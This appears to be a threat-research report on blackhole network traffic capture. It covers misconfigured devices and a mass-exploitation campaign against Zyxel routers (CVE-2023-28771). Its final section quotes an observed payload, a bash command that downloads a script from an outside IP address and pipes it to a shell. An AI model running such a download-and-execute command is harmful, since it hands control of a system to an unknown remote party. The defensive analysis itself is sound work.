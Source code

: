 \chapter{Blackhole Traffic Analysis}
The project uses a methodical approach to analyze misconfigured systems by routing unused network ranges to a specific IP address for full packet capture. This setup allows for the collection of data on network activities that may indicate misconfigurations or malicious behavior. The captured data is streamed unidirectionally to a D4 collector, enabling a detailed analysis of the traffic.

The dataset analyzed during the project spans from January 1, 2024, to October 17, 2024, and includes over 10,226 unique destination IP addresses. In total, 4.31 TB of data was collected. This data provides invaluable insights into the nature of misconfigured devices and the patterns of malicious activities observed within the blackhole networks.

\chapter{Observations}
Misconfigured devices are a recurring theme in the analysis. These misconfigurations often result from typographical errors or improper default routing setups. For instance, devices that send SYSLOG messages to unintended networks represent a common type of misconfiguration. Similarly, MikroTik routers are often observed connecting to external services, such as \texttt{cloud.mikrotik.com}, due to default configurations.

DNS misconfigurations are another significant finding. When a secondary DNS resolver is misconfigured, it frequently goes unnoticed, leading to unintended traffic redirection. These observations highlight the importance of proper configuration and monitoring practices to avoid exposing sensitive systems to potential threats.

\chapter{Example Cases}
\section{Mass Exploitation of Devices}
Mass exploitation campaigns are a critical concern in cybersecurity. Attackers often exploit known vulnerabilities as soon as they are disclosed. A notable example observed during the project was the exploitation of the Zyxel router vulnerability (CVE-2023-28771), which allowed attackers to bypass authentication. The exploitation involved malicious payloads, such as the following command executed on vulnerable systems:
\begin{verbatim}
bash -c "curl http://92.60.77.85/z -o-|sh";
\end{verbatim}
This case underscores the need for timely patching and proactive defense mechanisms to mitigate the risks associated with known vulnerabilities.

